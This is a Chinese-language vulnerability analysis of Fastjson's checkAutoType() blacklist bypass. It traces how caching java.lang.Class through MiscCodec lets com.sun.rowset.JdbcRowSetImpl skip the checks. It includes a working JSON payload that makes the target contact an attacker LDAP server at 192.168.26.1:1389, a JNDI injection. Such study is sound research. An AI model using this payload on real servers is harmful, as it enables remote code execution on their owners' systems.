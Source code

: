 checkAutoType()会首先调用 getClassFromMapping(typeName)去缓存里面找，
如果找不到，就会调用 deserializers.findClass(typeName)到反序列化器里面去找，
只要在缓存或者反序列化器中的任意一处找到了class，就会直接return，
后续的黑白名单就不会被执行。

现在需要做的，就是考虑如何将我们的目标类放入缓存中，然后让deserializer.findClass能识别它。


跟进getClassFromMapping,
搜索mappings的用法
<img width="2348" height="1512" alt="image" src="https://github.com/user-attachments/assets/a6562e11-5d02-47d5-91bb-7f15c0e05ed3" />

在loadClass中存在三个调用,
搜索用法，在MiscCodec类下存在调用

当clazz == Class.class条件成立，就会调用loadClass,
这个Class.class 就是 java.lang.Class 的 Class 对象

在此处，如果要让loadClass被调用，那就需要让这个clazz等于java.lang.Class，
把strVal字符串当作类名传进去，调用TypeUtils.loadClass加载，
成功加载后就会执行mappings.put(className，clazz)放到缓存中， 从而绕过checkAutoType()的黑白名单检测。

<img width="1797" height="1512" alt="image" src="https://github.com/user-attachments/assets/c1923197-6dfa-41e9-8294-3f564e588ece" />

在上面的代码中，判断键值是否为val，之后提取键值val对应的值赋值给objVal，之后在赋值给strVal。

<img width="1188" height="1287" alt="image" src="https://github.com/user-attachments/assets/4651e6fc-299a-428a-91c6-29c852c45ad8" />

Payload：

<img width="1676" height="153" alt="image" src="https://github.com/user-attachments/assets/953323fd-cc58-4c3d-b602-38b765b429ec" />

"{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
        "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.26.1:1389/zgwz3n\",\"autoCommit\":true}}"

如果要绕过黑白名单，
首先传入一个java.lang.Class 对应的val值为恶意类 如（com.sun.rowset.JdbcRowSetImpl）

这一步是将恶意类放入缓存中，
之后再用之前的payload，
如果com.sun.rowset.JdbcRowSetImpl放入缓存，那么再次加载的时候，这个类就已经在缓存中了，
在checkAutoType()方法中就会直接return，不会进行黑白名单检测，达到绕过黑名单。

<img width="1806" height="1155" alt="image" src="https://github.com/user-attachments/assets/046f4cc4-0605-4d67-8ca8-a68e0d6cef0c" />

调试分析：

代码走到checkAutoType(),
到缓存中去找typeName，我们第一次传入的是java.lang.Class,
在这里找到了，之后return

<img width="2348" height="1512" alt="image" src="https://github.com/user-attachments/assets/7a1c4373-a50c-4eaf-b201-07ee569cbe03" />

之后就会去获取,
MiscCodec的反序列化器
